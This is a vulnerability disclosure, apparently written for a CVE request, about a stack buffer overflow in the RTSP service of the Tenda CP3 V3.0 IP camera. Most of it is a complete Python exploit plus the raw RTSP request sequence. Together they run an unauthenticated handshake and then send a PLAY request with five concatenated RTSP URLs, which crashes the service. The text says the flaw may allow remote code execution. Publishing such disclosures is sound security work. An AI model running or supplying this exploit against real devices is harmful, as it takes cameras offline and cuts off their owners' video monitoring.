



# Tenda CP3 RTSP Service Stack Buffer Overflow via Repeated URL Concatenation in PLAY Request

## Information

**Vendor of the products:**  Tenda

**Vendor's website:**  https://www.tenda.com.cn/

**Reported by:**  YanKang

**Affected products:** CP3 V3.0

**Affected firmware version:** V31.1.9.91

**Firmware download address:** https://www.tenda.com.cn/material/show/675687993704517

## Overview

A stack-based buffer overflow vulnerability exists in the RTSP service of the Tenda CP3 IP camera. When processing a `PLAY` request, the RTSP service applies a two-stage URL validation mechanism: the first stage performs format checking and rejects malformed inputs with a `400 Bad Request` response; the second stage performs URL routing and path extraction on inputs that pass the first stage. The second-stage parsing logic, however, lacks sufficient length validation on the URL field. By constructing a `PLAY` request URL consisting of exactly five consecutive repetitions of a valid RTSP URL, an attacker can bypass the first-stage format check and trigger a stack buffer overflow during second-stage route parsing, causing an immediate crash of the RTSP service process.

The vulnerability requires no authentication credentials — only network access to the device's LAN segment is necessary. Exploitation requires completing the `OPTIONS`, `DESCRIBE`, and two legitimate `SETUP` requests to establish a valid RTSP session, after which the malformed `PLAY` request can be sent to trigger the overflow. Upon receiving the malformed request, the RTSP service process crashes immediately, causing TCP port 554 to stop accepting connections. All clients on the local network — including the official Tenda app and third-party players such as VLC — are unable to connect to the device. Beyond denial of service, the stack-based nature of the overflow presents a potential attack surface for remote code execution (RCE).

## POC

```python
#!/usr/bin/env python3
"""
PoC for Stack-Based Buffer Overflow in Tenda CP3 RTSP Service (PLAY Request)

This proof-of-concept reproduces a denial-of-service vulnerability by completing
a legitimate RTSP handshake (OPTIONS, DESCRIBE, and two valid SETUP requests)
to establish a valid session, then sending a malformed PLAY request whose URL
field consists of exactly five consecutive repetitions of a valid RTSP URL. This
input bypasses the first-stage format validation and triggers a stack buffer
overflow in the second-stage URL routing parser, causing an immediate crash of
the RTSP service process.

Tested device:
  - Vendor:           Tenda
  - Model:            CP3 V3.0
  - Firmware:         V31.1.9.91

Impact:
  - RTSP service process crashes immediately
  - TCP port 554 stops accepting connections
  - Denial of Service (DoS); potential for Remote Code Execution (RCE)

Usage:
  python3 poc_tenda_cp3_rtsp_play.py

This code is for authorized security research purposes only.
"""

import socket
import time

CAMERA_IP = "TARGET_IP"   # Replace with target device IP
RTSP_PORT = 554


def recv_rtsp_response(sock):
    """Receive RTSP response from socket, waiting up to 30 seconds."""
    response_data = b""
    sock.settimeout(30)
    try:
        while True:
            chunk = sock.recv(4096)
            if b"RTSP/1.0" in chunk:
                response_data += chunk
                break
            if not chunk:
                break
            response_data += chunk
    except socket.timeout:
        pass
    return response_data


def check_service_alive(ip, port, label=""):
    """
    Verify whether the RTSP service is still alive by sending a minimal
    OPTIONS request. A ConnectionRefusedError or timeout indicates the
    service has crashed.
    """
    chk = None
    try:
        chk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        chk.settimeout(5)
        chk.connect((ip, port))
        req = (
            f"OPTIONS rtsp://{ip}:{port}/tenda RTSP/1.0\r\n"
            f"CSeq: 1\r\n"
            f"User-Agent: ServiceCheck/1.0\r\n\r\n"
        )
        chk.send(req.encode())
        response = b""
        while True:
            chunk = chk.recv(4096)
            if b"RTSP/1.0" in chunk:
                response += chunk
                break
            if not chunk:
                break
            response += chunk
        first_line = response.decode("ascii", errors="replace").split("\r\n")[0]
        if "200" in first_line:
            print(f"[Service Check][{label}] Service is alive: {first_line}")
        else:
            print(f"[Service Check][{label}] Unexpected response: {first_line}")
    except ConnectionRefusedError:
        print(f"[Service Check][{label}] Connection refused -- RTSP service has crashed.")
    except socket.timeout:
        print(f"[Service Check][{label}] Connection timed out -- RTSP service may have crashed.")
    except Exception as e:
        print(f"[Service Check][{label}] Check failed: {e}")
    finally:
        if chk:
            try:
                chk.close()
            except Exception:
                pass


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((CAMERA_IP, RTSP_PORT))

# 1. OPTIONS
options_req = (
    f"OPTIONS rtsp://{CAMERA_IP}:{RTSP_PORT}/tenda RTSP/1.0\r\n"
    f"CSeq: 2\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
)
s.send(options_req.encode())
time.sleep(1)
options_res = recv_rtsp_response(s)
print("OPTIONS Response:\n", options_res.decode(errors="ignore"))

# 2. DESCRIBE
describe_req = (
    f"DESCRIBE rtsp://{CAMERA_IP}:{RTSP_PORT}/tenda RTSP/1.0\r\n"
    f"CSeq: 3\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
s.send(describe_req.encode())
time.sleep(1)
describe_res = recv_rtsp_response(s)
print("DESCRIBE Response:\n", describe_res.decode(errors="ignore"))
check_service_alive(CAMERA_IP, RTSP_PORT, label="after DESCRIBE")

# 3. SETUP track1 (legitimate)
setup1_req = (
    f"SETUP rtsp://{CAMERA_IP}/ch=1?subtype=0/trackID=1 RTSP/1.0\r\n"
    f"CSeq: 4\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)
s.send(setup1_req.encode())
time.sleep(1)
setup1_res = recv_rtsp_response(s)
print("SETUP_1 Response:\n", setup1_res.decode(errors="ignore"))

# Extract session ID from SETUP track1 response
session_id = None
for line in setup1_res.decode(errors="ignore").split("\r\n"):
    if line.startswith("Session:"):
        session_id = line.split(":")[1].split(";")[0].strip()
        break
if not session_id:
    print("[!] Failed to get session ID, exiting.")
    s.close()
    exit(1)
print(f"[*] Session ID: {session_id}")

# 4. SETUP track2 (legitimate)
setup2_req = (
    f"SETUP rtsp://{CAMERA_IP}/ch=1?subtype=0/trackID=2 RTSP/1.0\r\n"
    f"CSeq: 5\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
    f"Session: {session_id}\r\n\r\n"
)
s.send(setup2_req.encode())
time.sleep(1)
setup2_res = recv_rtsp_response(s)
print("SETUP_2 Response:\n", setup2_res.decode(errors="ignore"))
check_service_alive(CAMERA_IP, RTSP_PORT, label="after SETUP_2")

# 5. PLAY (malformed URL: five consecutive repetitions of a valid RTSP URL)
# The URL bypasses first-stage format validation and triggers a stack buffer
# overflow in the second-stage URL routing parser.
malformed_url = (
    f"rtsp://{CAMERA_IP}/ch=1?subtype=0/"
    f"rtsp://{CAMERA_IP}/ch=1?subtype=0/"
    f"rtsp://{CAMERA_IP}/ch=1?subtype=0/"
    f"rtsp://{CAMERA_IP}/ch=1?subtype=0/"
    f"rtsp://{CAMERA_IP}/ch=1?subtype=0/"
)
play_req = (
    f"PLAY {malformed_url} RTSP/1.0\r\n"
    f"CSeq: 6\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n"
    f"Range: npt=0.000-\r\n\r\n"
)
s.send(play_req.encode())
time.sleep(1)
play_res = recv_rtsp_response(s)
print("PLAY Response:\n", play_res.decode(errors="ignore"))
check_service_alive(CAMERA_IP, RTSP_PORT, label="after PLAY")

print("[*] PoC finished. If the service check above reports a connection failure, the vulnerability was successfully triggered.")
s.close()
```

## Attack Demo

The vulnerability can be triggered by sending a malformed RTSP `PLAY` request. After completing the `OPTIONS`, `DESCRIBE`, and two legitimate `SETUP` requests to establish a valid RTSP session, an attacker sends a `PLAY` request whose URL field consists of exactly five consecutive repetitions of a valid RTSP URL. This input bypasses the first-stage format validation and triggers a stack buffer overflow in the second-stage route parsing logic. The RTSP service process crashes immediately upon receiving the malformed request, causing TCP port 554 to stop responding (`ConnectionRefusedError`), and all clients on the local network lose access to the device.







The following is the complete RTSP message sequence used to reproduce the vulnerability:

```
OPTIONS rtsp://<IP>:554/tenda RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://<IP>:554/tenda RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://<IP>/ch=1?subtype=0/trackID=1 RTSP/1.0
CSeq: 4
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://<IP>/ch=1?subtype=0/trackID=2 RTSP/1.0
CSeq: 5
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: <session_id>

PLAY rtsp://<IP>/ch=1?subtype=0/rtsp://<IP>/ch=1?subtype=0/rtsp://<IP>/ch=1?subtype=0/rtsp://<IP>/ch=1?subtype=0/rtsp://<IP>/ch=1?subtype=0/ RTSP/1.0
CSeq: 6
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: <session_id>
Range: npt=0.000-
# The PLAY request URL is constructed by concatenating exactly five repetitions of a valid RTSP URL,
# bypassing first-stage format validation and triggering a stack buffer overflow in the second-stage route parsing logic.
```

A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/Tenda_CP3V3.0_6th

## Supplement

This vulnerability allows an unauthenticated attacker with LAN access to trigger a denial-of-service (DoS) condition on the affected device. By sending a malformed RTSP `PLAY` request whose URL consists of exactly five consecutive repetitions of a valid RTSP URL, a stack buffer overflow is triggered during second-stage route parsing, resulting in an immediate RTSP service process crash.

Successful exploitation causes the camera to become completely unavailable, interrupts all video streaming, and results in the device appearing offline in both the official management application and third-party clients. Repeated exploitation can lead to sustained service disruption, negatively impacting the availability and reliability of the device in real-world deployment scenarios. Furthermore, due to the stack-based nature of the overflow, this vulnerability presents a potential attack surface for remote code execution (RCE), posing a significant security risk in real-world deployment scenarios.


